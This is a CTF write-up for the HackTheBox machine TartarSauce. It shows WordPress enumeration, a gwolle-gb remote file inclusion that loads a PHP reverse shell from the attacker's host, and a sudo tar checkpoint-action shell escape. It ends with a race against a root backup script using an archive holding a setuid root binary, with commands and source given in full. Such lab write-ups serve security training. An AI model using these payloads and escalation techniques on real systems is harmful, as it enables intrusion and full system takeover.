

hackthebox TartarSauce
Released: 12th May 2018 / Pwned: 28th October 2019 - [+] Solved whilst Retired

The creator of TartarSauce is a massive troll.
Sometimes that can be fun, but here it's a little obnoxious (not in a good way) :/
Summary
• Run gobuster to find a WordPress install
• Use wpscan and aggressively scan for plugins
• Read the changelog of gwolle-gb to find that you're being trolled about the plugin version
• Exploit gwolle-gb to get a shell on the system
• Check sudo privileges, and priv-esc to onuma with tar command execution
• Run pspy or check the system timers
• Exploit /usr/sbin/backuperer by replacing the hidden gzip archive it creates with one that contains a suid binary
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.88
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p 80 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.88
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
┌─[✗]─[root@parrot]─[/home/horace/ctf/tartarsauce]
└──╼ #nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.88
[...]
PORT STATE SERVICE
80/tcp open http
┌─[root@parrot]─[/home/horace/ctf/tartarsauce]
└──╼ #nmap -p 80 -T4 -sV -sC -O -oN nmap/tcp-open.txt 10.10.10.88
[...]
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.16 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.18 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Linux 3.12 (93%), Linux 3.13 (93%)
[...]
Analysis:
• Only 1 port - 80/http. Nmap found some entries in robots.txt, but all of these are rabbit holes
2) 80/http - Gobuster
After going down the rabbit hole of /webservices, directory brute force the web site with gobuster.
A brute force of /webservices reveals a /wp directory. WordPress is running.
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #gobuster dir -e -u http://10.10.10.88/webservices/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o gb1.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.10.88/webservices/
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Expanded: true
[+] Timeout: 10s
===============================================================
http://10.10.10.88/webservices/.htpasswd (Status: 403)
http://10.10.10.88/webservices/.htaccess (Status: 403)
http://10.10.10.88/webservices/wp (Status: 301)
===============================================================
2a) wpscan
The WordPress site http://10.10.10.88/webservices/wp is pretty broken.
wpscan the site. Initially you wont find anything, but aggressively enumerate for plugins with --plugins-detection aggressive and you'll find some plugins: akismet, brute-force-login-protection, and gwolle-gb.
┌─[root@parrot]─[/ctf/tartarsauce/http]
└──╼ #wpscan --url http://10.10.10.88/webservices/wp -e ap
[...]
─[✗]─[root@parrot]─[/ctf/tartarsauce/http]
└──╼ #wpscan --url http://10.10.10.88/webservices/wp -e ap --plugins-detection aggressive
[...]
[+] Enumerating All Plugins (via Aggressive Methods)
Checking Known Locations - Time: 00:16:21 <==========================================================================================================> (83168 / 83168) 100.00% Time: 00:16:21
[+] Checking Plugin Versions (via Passive and Aggressive Methods)
[i] Plugin(s) Identified:
[+] akismet
| Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
| Last Updated: 2019-05-14T15:05:00.000Z
| Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
| [!] The version is out of date, the latest version is 4.1.2
|
| Detected By: Known Locations (Aggressive Detection)
|
| Version: 4.0.3 (100% confidence)
| Detected By: Readme - Stable Tag (Aggressive Detection)
| - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
[+] brute-force-login-protection
| Location: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/
| Latest Version: 1.5.3 (up to date)
| Last Updated: 2017-06-29T10:39:00.000Z
| Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
|
| Detected By: Known Locations (Aggressive Detection)
|
| Version: 1.5.3 (100% confidence)
| Detected By: Readme - Stable Tag (Aggressive Detection)
| - http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
[+] gwolle-gb
| Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
| Last Updated: 2019-08-21T10:17:00.000Z
| Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
| [!] The version is out of date, the latest version is 3.1.6
|
| Detected By: Known Locations (Aggressive Detection)
|
| Version: 2.3.10 (100% confidence)
| Detected By: Readme - Stable Tag (Aggressive Detection)
| - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up.
2b) gwolle-gb
gwolle-gb version 1.5.3 has an RFI vulnerability.
┌─[root@parrot]─[/ctf]
└──╼ #searchsploit gwolle
Exploit Title | Path
| (/usr/share/exploitdb/)
---------------------------------------------------- ----------------------------------------
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion exploits/php/webapps/38861.txt
---------------------------------------------------------------------------------------------
Gwolle-GB vuln - https://www.exploit-db.com/exploits/38861
However, wpscan reported gwolle-gb as version 2.3.10.
I'd run out of options of what to try next, so I just decided to try the gwolle-gb RFI exploit and it worked (despite the version numbers not matching up).
Turns out, if you check the Changelog in the readmet that wpscan found - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt - you'll see that the creator is messing with us - * Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D. (Note to box creators: don't do this. This doesn't make a fun or interesting box.)
Gain Access
3) gwolle-gb RFI
https://www.exploit-db.com/exploits/38861
To exploit gwolle-gb, you need to create a wp-load.php file containing a reverse shell, and serve it to the target.
I used pentestmonkey's php-reverse-shell.php from /usr/share/webshells.
Modify the $ip and $port lines to that of your attacking system.
Serve the file using python -m SimpleHTTPServer.
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #cp /usr/share/webshells/php/php-reverse-shell.php wp-load.php
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #nano wp-load.php
[...]
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.12'; // CHANGE THIS
$port = 9001; // CHANGE THIS
$chunk_size = 1400;
[...]
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Start a listener to receive the shell.
┌─[✗]─[root@parrot]─[/ctf]
└──╼ #nc -lvnp 9001
listening on [any] 9001 ...
And browse to the RFI URL and include your php reverse shell.
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12:8000/
You should receive a shell on your listener.
Upgrade to an interactive shell with python -c 'import pty; pty.spawn("/bin/bash")'.
[...]
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.88] 48042
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
05:01:42 up 28 min, 0 users, load average: 0.03, 0.07, 0.03
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@TartarSauce:/$
Priv-Esc to onuma
4) tar Command Execution
Check what www-data can with sudo.
www-data@TartarSauce:/tmp/lec$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on TartarSauce:
(onuma) NOPASSWD: /bin/tar
www-data can run tar as onuma without providing a password.
Tar can be manipulated to run system commands.
With this, we can get a shell as onuma.
A good place to check for functionality like this in standard binaries is gtfobins - https://gtfobins.github.io/gtfobins/tar/
www-data@TartarSauce:/tmp/lec$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
</dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/ from member names
onuma@TartarSauce:/tmp/lec$ cat ~/user.txt
cat ~/user.txt
b2d6ec454...
Priv-Esc to root
5) /usr/sbin/backuperer
Check for files that onuma owns.
onuma@TartarSauce:/tmp/lec$ find / -user onuma 2>/dev/null | grep -v proc
/var/backups/onuma-www-dev.bak
/home/onuma
/home/onuma/.cache
/home/onuma/.cache/motd.legal-displayed
/home/onuma/.mysql_history
[...]
onuma owns a backup file - /var/backups/onuma-www-dev.bak.
If you extract it you'll see that it's a backup of /var/www/html.
Because this is a backup file, I decided to look for a job that might be creating this backup.
There's nothing in cron, but the systemd timers show a backuperer.service running every 5 minutes.
(you'll have to set a terminal before you can use watch and systemctl list-timers).
onuma@TartarSauce:/tmp/lec$ export TERM=xterm-256color
onuma@TartarSauce:/tmp/lec$ watch -n 1 ‘systemctl list-timers’
Every 1.0s: systemctl list-timers Mon Oct 28 09:44:47 2019
NEXT LEFT LAST PASSED
UNIT ACTIVATES
Mon 2019-10-28 09:48:54 EDT 4min 7s left Mon 2019-10-28 09:43:54 EDT 52s ago
backuperer.timer backuperer.service
[...]
4 timers listed.
Pass --all to see loaded but inactive timers, too.
(I couldn't exit this without Ctrl + C.
So I Ctrl + C'd and ran the RFI and priv-esc again to get my shell back).
I downloaded pspy from attacking system and ran it to see what this service is doing every 5 minutes.
https://github.com/DominicBreuker/pspy
onuma@TartarSauce:/tmp/lec$ wget -q http://10.10.14.12:8000/pspy32s
onuma@TartarSauce:/tmp/lec$ ./pspy32s
2019/10/28 06:54:14 CMD: UID=0 PID=18554 | /bin/tar -zxvf /var/tmp/.1a06337eb78ebfb696ed05b28439cd75c2616939 -C /var/tmp/check
2019/10/28 06:54:14 CMD: UID=0 PID=18555 | gzip -d
2019/10/28 06:54:15 CMD: UID=0 PID=18557 | /bin/bash /usr/sbin/backuperer
2019/10/28 06:54:15 CMD: UID=0 PID=18556 | /bin/bash /usr/sbin/backuperer
2019/10/28 06:54:15 CMD: UID=0 PID=18558 | /bin/mv /var/tmp/.1a06337eb78ebfb696ed05b28439cd75c2616939 /var/backups/onuma-www-dev.bak
2019/10/28 06:54:15 CMD: UID=0 PID=18559 | /bin/rm -rf /var/tmp/check
It's look like it's creating tar archives, and running /usr/sbin/backuperer.
5a) Investigate /usr/sbin/backuperer
/usr/sbin/backuperer is a shell script that we don't have write access to.
onuma@TartarSauce:/$ ls -alh /usr/sbin/backuperer
-rwxr-xr-x 1 root root 1.7K Feb 21 2018 /usr/sbin/backuperer
onuma@TartarSauce:/$ file /usr/sbin/backuperer
/usr/sbin/backuperer: Bourne-Again shell script, UTF-8 Unicode text executable
onuma@TartarSauce:/$ cat /usr/sbin/backuperercx
[...]
Here's a breakdown of the script:
$tmpfile is a hidden file. Its file name is a sha1 hash of a randomly generated number.
1. /usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
/var/www/html gets tar archived in /var/tmp/.<random sha1h hash>
2. /bin/sleep 30
The script sleeps for 30 seconds
3. /bin/mkdir $check
The script makes a /var/tmp/check directory
4. /bin/tar -zxvf $tmpfile -C $check
The script extracts /var/tmp/.<random sha1h hash> into check/
5. if [[ $(integrity_chk) ]]
The script runs diff against /var/www/html and /var/tmp/check/var/www/html
If the 2 are different, and error is recorded and the files are left where they are.
If the 2 are the same, /var/tmp/.<random sha1h hash> is copied to /var/backups/onuma-www-dev.bak and the check directory and .<random sha1 hash> file are deleted.
The vulnerability in this script lies in 2 commands - /bin/sleep 30 and /bin/tar -zxvf $tmpfile -C $check.
5b) How to exploit /usr/sbin/backuperer?
/bin/tar -zxvf $tmpfile -C $check in the backuperer script runs as root.
It extracts the /var/tmp/.<random sha1h hash> gzip archive into check/.
Any files that are owned by root inside of /var/tmp/.<random sha1h hash> will still be root after they're extracted (because /var/tmp/.<random sha1 hash> is being extracted by root).
Because the script sleeps for 30 seconds, we are given the chance to modify the /var/tmp/.<random sha1h hash> file, which is owned by onuma.
We replace the /var/tmp/.<random sha1h hash> gzip archive with our own archive containing a SUID binary.
When the script runs the integrity_chk() function, it will see that the contents of /var/tmp/check/var/www/html (which contains our SUID binary) and /var/www/html (which contains the website) are not the same, and will leave the extracted files where they are. We'll be left with a SUID binary owned by root in /check which is executable by everyone that we can use to priv-esc to root.
6) Exploit /usr/sbin/backuperer
6a) Compile SUID binary & create archive
gcc isn't installed on the TartarSauce, so write and compile the SUID binary on your attacking system.
TartarSauce is 32bit, so compile for a 32bit system using -m32 bit.
If you get an error, install gcc-multilib.
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #nano rootme.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0);
setgid(0);
system("/bin/bash");
}
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #gcc rootme.c -o rootme -m32
Now set up the archive.
The SUID binary needs to be in a var/www/html/ directory.
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #mkdir -p var/www/html
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #cp rootme var/www/html/
Make the SUID binary executable by everyone, and give it a SUID bit.
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #chmod 777 var/www/html/rootme
─[root@parrot]─[/ctf/tartarsauce]
└──╼ #chmod u+s var/www/html/rootme
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #ls -l var/www/html/rootme
-rwsrwxrwx 1 root root 15532 Oct 27 02:20 var/www/html/rootme
Finally, compress the archive and serve it to your attacking system with python -m SimpleHTTPServer
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #tar czf rootme.tar.gz var
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #tar -tf rootme.tar.gz
var/
var/www/
var/www/html/
var/www/html/rootme
┌─[root@parrot]─[/ctf/tartarsauce]
└──╼ #python -m SimpleHTTPServer
Download the malicious gzip archive to your attacking system.
onuma@TartarSauce:/var/backups$ cd /var/tmp
onuma@TartarSauce:/var/tmp$ wget -q http://10.10.14.12:8000/rootme.tar.gz
onuma@TartarSauce:/var/tmp$ ls -alh
total 36K
drwxrwxrwt 8 root root 4.0K Oct 28 08:51 .
drwxr-xr-x 14 root root 4.0K Feb 9 2018 ..
-rw-r--r-- 1 onuma onuma 2.7K Oct 26 22:30 rootme.tar.gz
[...]
6b) Race against the clock
Check when /usr/sbin/backuperer is next run by checking the system timers.
onuma@TartarSauce:/var/tmp$ export TERM=xterm-256color
onuma@TartarSauce:/var/tmp$ systemctl list-timers
NEXT LEFT LAST PASSED
Mon 2019-10-28 09:38:53 EDT 1min 56s left Mon 2019-10-28 09:33:53 EDT 3min 3s
[...]
(q + enter to exit)
/usr/bin/backuperer is next run at 09:38:53.
Check the system with date.
onuma@TartarSauce:/var/tmp$ date
Mon Oct 28 09:38:53 EDT 2019
When it's time, there should be a .<sha1 hash> file in /var/tmp.
onuma@TartarSauce:/var/tmp$ ls -alh
total 7.2M
drwxrwxrwt 8 root root 4.0K Oct 28 09:38 .
drwxr-xr-x 14 root root 4.0K Feb 9 2018 ..
-rw-r--r-- 1 onuma onuma 7.2M Oct 28 09:38 .4ec13c593cf179d6cfcbd7e79af22708ef75537c
-rw-r--r-- 1 onuma onuma 2.7K Oct 26 22:30 rootme.tar.gz
[...]
You now have 30 seconds to delete the .<sha1 hash> file and rename/copy your malicious archive to that of the .<sha1 hash> file.
onuma@TartarSauce:/var/tmp$ rm .4ec13c593cf179d6cfcbd7e79af22708ef75537c; cp rootme.tar.gz .4ec13c593cf179d6cfcbd7e79af22708ef75537c
onuma@TartarSauce:/var/tmp$ ls -alh
total 40K
drwxrwxrwt 8 root root 4.0K Oct 28 09:39 .
drwxr-xr-x 14 root root 4.0K Feb 9 2018 ..
-rw-r--r-- 1 onuma onuma 2.7K Oct 28 09:39 .4ec13c593cf179d6cfcbd7e79af22708ef75537c
-rw-r--r-- 1 onuma onuma 2.7K Oct 26 22:30 rootme.tar.gz
[...]
After 30 seconds, the .<sha1 hash> file should be extracted into a /check directory.
onuma@TartarSauce:/var/tmp$ ls -alh
total 44K
drwxrwxrwt 9 root root 4.0K Oct 28 09:39 .
drwxr-xr-x 14 root root 4.0K Feb 9 2018 ..
-rw-r--r-- 1 onuma onuma 2.7K Oct 28 09:39 .4ec13c593cf179d6cfcbd7e79af22708ef75537c
drwxr-xr-x 3 root root 4.0K Oct 28 09:39 check
-rw-r--r-- 1 onuma onuma 2.7K Oct 26 22:30 rootme.tar.gz
[...]
Inside /check should be your SUID binary.
onuma@TartarSauce:/var/tmp$ cd check/var/www/html
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -alh
[...]
-rwsrwxrwx 1 root root 16K Oct 26 22:20 rootme
Execute it, and you'll be root!
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./rootme
root@TartarSauce:/var/tmp/check/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(onuma)
root@TartarSauce:/var/tmp/check/var/www/html# cat /root/root.txt
e79abdab8...